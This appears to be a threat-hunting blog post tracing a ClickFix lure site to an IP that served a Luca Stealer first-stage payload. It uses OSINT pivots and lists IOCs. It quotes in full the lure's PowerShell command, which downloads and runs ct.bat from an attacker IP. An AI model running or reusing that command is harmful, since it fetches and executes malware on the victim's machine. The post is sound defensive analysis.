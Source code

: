 ```yaml
---
layout: post
title:  "Comp'd Domain? Who did it?"
date:   2025-09-09 21:00:00 +1000
categories: hunting
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Overview

Grabbed a Clickfix IOC from Validin, following the breadcrumbs to see if I can attribute it to an adversary/malware strain.

Going to through out all IOCs and stuff because why not.

### Website serving Clickfix

"quirkyrealty[.]com"

Resolves to an Indian IP. Hosted by 'Web Werks India Pvt. Ltd. was an Indian data center and cloud solutions provider'
![alt text](/images/india_resolved.PNG)

Google dork see what we can get. Looks like a legit business? Well a not very legit one. 
![alt text](/images/quirky_google.PNG)

Booting up my VM to hit the website to see how this is being served.

![alt text](/images/landing_page.PNG)

Alright few points here from the screenshot above.
- No redirects/iframes/weird JS
- Malicious JavaScript exists within the first HTTP request to the domain
- Payload command written in cleartext (whoop whoop)
- Can see a juicy IP and the file 'ct.bat' that is downloaded from there.

Here is the malicious .JS that copies the command to the user's clipboard
- Uses document.execCommand
![alt text](/images/malicious_js.PNG)

Website is likely full comp'd or not legit in the first place.

Here is the full command from the ``command`` variable in the .JS
```const command = `powershell -c "Invoke-WebRequest -Uri 'hXXp://80[.]253[.]249[.]186:5504/ct.bat' -OutFile \"%temp%\ct.bat\" -UseBasicParsing; Start-Process \"%temp%\ct.bat\""`;```

### .Bat? 

```const command = `powershell -c "Invoke-WebRequest -Uri 'hXXp://80[.]253[.]249[.]186:5504/ct.bat' -OutFile \"%temp%\ct.bat\" -UseBasicParsing; Start-Process \"%temp%\ct.bat\""`;```

This is our payload command. Lets remove 'Start-Process', the const declaration and run it in my VM to save the file in temp.

```Invoke-WebRequest -Uri "hXXp://80[.]253[.]249[.]186:5504/ct.bat" -OutFile "C:\Users\ronald\Desktop\NewClicky\safe-file.txt"``

Alright well this is depressing. The file doesn't live on the web server anymore.

![alt text](/images/file_down.PNG)

So lets see what I can figure out about this IP then...

### IP? What are you...

We can see that 'ct.bat' is being served from the IP 80[.]253[.]249[.]186 at port 5504. 

Quick DNSLytics lookup.
![alt text](/images/clickfix_payload_ip.PNG)

What services are running on the IP?

![alt text](/images/shodan_result.PNG)

Fair few... that RCE CVE is juicy...

Anyhow, interesting that we can't see port 5504 here. Because that is the port that historically served 'ct.bat'

Hunt.io states it was last seen on the 9th of September. So I am one day late to the party. 

![alt text](/images/hunt.io_result.PNG)

Without any HTTP response body we can't do much else. Historical data is dry for this port on Censys, Validin and huntio.

For pivoting I'll look into RDP (3389)

A popular pivot from here is the SSL cert SHA_256 hash. Usually you would have to run an OpenSSL command to calculate this. But Validin has already calculated it for us.

![alt text](/images/validin_sha_256.PNG)

Now when we search this hash we have another IP.

![alt text](/images/validin_sha_result.PNG)

Snazzy. This gives us very high confidence they're related as they use the same RDP SSL cert!

Alright, when I whack this IP into VT I get some cool results.

![alt text](/images/VT_result.PNG)

We can see in the communicating files are Luca_Stealer. Specifically a Cobalt Strike beacon used for Luca Stealer. Assumely as a persistence method after exfilitration of initial data.

So, if I had to take an educated guess. I'd say our IP 80[.]253[.]249[.]186 serves the first stage payload for Luca Stealer.